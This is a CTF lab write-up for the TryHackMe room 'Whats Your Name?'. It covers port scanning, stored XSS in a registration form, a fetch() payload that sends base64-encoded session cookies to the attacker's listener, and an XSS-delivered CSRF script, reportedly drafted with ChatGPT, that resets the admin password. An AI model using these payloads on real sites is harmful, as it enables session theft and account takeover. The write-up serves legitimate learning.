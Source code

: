 ```yaml
---
title: Whats Your Name?
date: 2025-05-29 19:30:00
categories: [TRYHACKME, CTF]
tags: [web,application,XSS]      # TAG names should always be lowercase
image: 
 path: /assets/img/posts/2025/05/Whats-your-name/room_image.webp
---
```


### Intro

A reconnaissance of active ports was initiated, identifying the following ports: 22, 80, and 8081.  
Ports 80 and 8081 have web services running, while port 8081 displays only a blank page.  
Port 80 hosts a website that allows user registration, but its registration fields are vulnerable to XSS (cross-site scripting). Through this attack vector, it is possible to obtain the moderator's session cookies.  
The moderator's panel has a subdomain with social network management functions. The system administrator can be contacted via a chatbot, which is also vulnerable to XSS attacks. Through this vulnerability, a form was crafted that does not require user interaction, allowing the administrator’s password to be changed and thereby granting administrative access.

### Recon

```shell
┌──(root㉿estudos)-[/home/alex]
└─# nmap -Pn -sS --open 10.10.90.47                              
Starting Nmap 7.95 ( https://nmap.org ) at 2025-04-30 18:01 -03
Nmap scan report for worldwap.thm (10.10.90.47)
Host is up (0.36s latency).
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
8081/tcp open  blackice-icecap

Nmap done: 1 IP address (1 host up) scanned in 6.28 seconds
```

Two web application in ports 80 and 8081.

![web page](/assets/img/posts/2025/05/Whats-your-name/web_page.png)

When attempting to create a new account with a valid user, the error below is displayed.

![Register](/assets/img/posts/2025/05/Whats-your-name/Register.png)

The web application on port 8081 displays only a blank page.

![Blank_page_8081](/assets/img/posts/2025/05/Whats-your-name/Blank_page_8081.png)

Fuzzing to search for hidden directories in the services running on ports 8081 and 80.

![Fuzzing_port_8081](/assets/img/posts/2025/05/Whats-your-name/Fuzzing_port_8081.png)

![Fuzzing_port_80](/assets/img/posts/2025/05/Whats-your-name/Fuzzing_port_80.png)

When attempting to log in to `/login.php` with a newly registered account.

![Login_page](/assets/img/posts/2025/05/Whats-your-name/Login_page.png)

When accessing the subdomain `login.worldwap.thm`, a blank page is displayed.  
The source code contains comments indicating the presence of the file `login.php`.

![Blank_page_subdomain](/assets/img/posts/2025/05/Whats-your-name/Blank_page_subdomain.png)

The comment in the source code displays the file `login.php`.  
Access with the provided credentials is not possible.

![Login_page_subdomain](/assets/img/posts/2025/05/Whats-your-name/Login_page_subdomain.png)

### Exploitation using XSS

The registration page was revisited for XSS testing.  
For testing, an XSS request was sent to the server.

Example of the XSS payload:

```js
<script src="http://10.2.13.47:80/field"></script>
```

![Register_page](/assets/img/posts/2025/05/Whats-your-name/Register_page.png)

The fields where requests are received.

![Request_myserver](/assets/img/posts/2025/05/Whats-your-name/Request_myserver.png)

The payload used to capture the administrator's session cookie.

```js
<script>fetch("http://10.2.13.47:80?cookie="+ btoa(document.cookie),{method: "GET"});</script>
```

The administrator's session cookie was received.

![Receive_cookies_mod](/assets/img/posts/2025/05/Whats-your-name/Receive_cookies_mod.png)

By changing the cookie in the browser, a login as `moderator` was successfully performed.

![Panel_mod](/assets/img/posts/2025/05/Whats-your-name/Panel_mod.png)

Upon returning to `login.worldwap`, the first flag was obtained.

![Panel_mod_subdomain](/assets/img/posts/2025/05/Whats-your-name/Panel_mod_subdomain.png)

### Logging in as Admin

On the home page, it was verified that the `search` field is not working.  
The `change password` and `go to chat` options are enabled.

![Function_change_password](/assets/img/posts/2025/05/Whats-your-name/Function_change_password.png)

The `Go to chat` option allows interaction with the bot administrator.  
The chat field was tested for XSS vulnerability using the payload below.

```js
<script>alert("XSS is working!");</script>
```

![Test_XSS_chat](/assets/img/posts/2025/05/Whats-your-name/Test_XSS_chat.png)

All chat messages were cleared.  
Intercepting the request for the `change password` function in Burp revealed that no mitigation for CSRF attacks is present.

![Burp](/assets/img/posts/2025/05/Whats-your-name/Burp.png)

With the assistance of ChatGPT, a script was developed containing a submit form that, after the page loads, sends a request to `change_password.php` to change the password to `password123`.

![Chatgpt](/assets/img/posts/2025/05/Whats-your-name/Chatgpt.png)

Minor changes to the `http` scheme were necessary.  
In the chatbot's source code, `href...` was displayed, causing the code to malfunction.  
The solution involved breaking the scheme within the strings, as shown in the example below

```js
<script>
    window.onload = function () {
      fetch('hT'+ 'tP://' + 'login.worldwap.thm/change_password.php', {
        method: 'POST',
        headers: {
          'Content-Type': 'application/x-www-form-urlencoded',
          'Host': 'login.worldwap.thm',
          'Origin': 'hT'+ 'tP://' + 'login.worldwap.thm'
        },
        body: 'new_password=password123'
      })
      .then(response => response.text())
      .then(data => {
        console.log('Resposta do servidor:', data);
      })
      .catch(error => {
        console.error('Erro:', error);
      });
    };
  </script>
```

After sending the code in the chat, a login attempt was made on `login.worldwap` using `admin:password123`

![Panel Adm](/assets/img/posts/2025/05/Whats-your-name/Panel_adm.png)

### Considerations

I hope this write-up can help others. It is written in a simple style and might contain some methodological errors (probably yes). It reflects my level of offensive security. Feedback is always welcome. Keep studying. 

